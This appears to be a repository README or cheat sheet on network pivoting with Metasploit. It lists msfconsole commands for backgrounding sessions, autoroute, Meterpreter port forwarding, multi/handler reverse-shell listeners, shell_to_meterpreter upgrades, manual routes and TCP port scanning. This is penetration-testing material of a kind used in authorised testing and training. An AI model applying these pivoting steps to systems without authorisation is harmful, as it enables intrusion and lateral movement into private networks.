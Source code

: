 ### METHODS TO ESTABLISH ROUTES

#### Method 1: Using msfconsole for Reverse Shell (Automatic Routing)

1. Exploit the target machine using msfconsole.
2. After obtaining root access via msfconsole, type `background` to suspend the session but keep it active.
3. Use `sessions -l` to list all active session IDs.
4. Search for the autoroute module:
   ```bash
   search post/multi/manage/autoroute
   ```
   Use it and provide the session ID from step 3 when prompted.
5. Return to the session with:
   ```bash
   sessions -i <ID>
   ```
   Use port forwarding to access desired ports on the target machine:
   ```bash
   portfwd add -l <your_port> -p <target_port> -r <target_ip>
   ```

#### Method 2: Establishing a Reverse Shell to msfconsole

1. From msfconsole, use the following module:
   ```bash
   use multi/handler
   ```
   Configure the necessary parameters to set up a listener.
2. Execute a reverse shell command from the compromised machine.
3. Background the session with `background` and list the session ID using `sessions`.
4. Use the following module to upgrade to a Meterpreter shell:
   ```bash
   use shell_to_meterpreter
   ```
   Fill in the required parameters (e.g., IP and session ID).
5. Enter the new Meterpreter session:
   ```bash
   sessions -i <ID>
   ```

**Manual Routing:**
- Exit the session and add routes manually within msfconsole:
  ```bash
  route add <IP> <SESSION_ID>
  ```
- To remove a route:
  ```bash
  route del <IP> <SESSION_ID>
  ```

### USING NMAP WITH METASPLOIT
Since Nmap does not integrate directly with Metasploit, use the following module:
``` bash
use auxiliary/scanner/portscan/tcp
```
Set the target IP and execute the scan with `run`.

